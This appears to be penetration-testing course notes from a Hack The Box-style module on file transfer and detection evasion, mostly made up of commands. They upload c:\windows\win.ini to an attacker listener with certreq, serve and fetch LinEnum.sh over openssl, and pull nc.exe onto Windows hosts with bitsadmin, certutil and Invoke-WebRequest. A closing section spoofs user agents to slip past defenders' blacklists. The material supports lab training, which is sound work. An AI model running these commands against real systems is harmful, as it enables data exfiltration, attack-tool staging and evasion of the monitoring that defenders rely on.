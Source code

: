 Upload win.ini to our Pwnbox

`C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini`

`XeroCyb3r@htb[/htb]**$** sudo nc -lvnp 80`

`XeroCyb3r@htb[/htb]**$** openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem`

`XeroCyb3r@htb[/htb]**$** openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh`

`XeroCyb3r@htb[/htb]**$** openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh`

`PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe`

`PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"`

`C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`

# Detection

Command-line detection based on blacklisting is straightforward to bypass, even using simple case obfuscation.

Most client-server protocols require the client and server to negotiate how content will be delivered before exchanging information. This is common with the `HTTP` protocol. There is a need for interoperability amongst different web servers and web browser types to ensure that users have the same experience no matter their browser. HTTP clients are most readily recognized by their user agent string, which the server uses to identify which `HTTP` client is connecting to it, for example, Firefox, Chrome, etc.

User agents are not only used to identify web browsers, but anything acting as an `HTTP` client and connecting to a web server via `HTTP` can have a user agent string (i.e., `cURL`, a custom `Python` script, or common tools such as `sqlmap`, or `Nmap`)

This [website](http://useragentstring.com/index.php) is handy for identifying common user agent strings. A list of user agent strings is available [here](http://useragentstring.com/pages/useragentstring.php).

# Evading Detection

If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari.

`PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl`

`PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome`

`PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"`
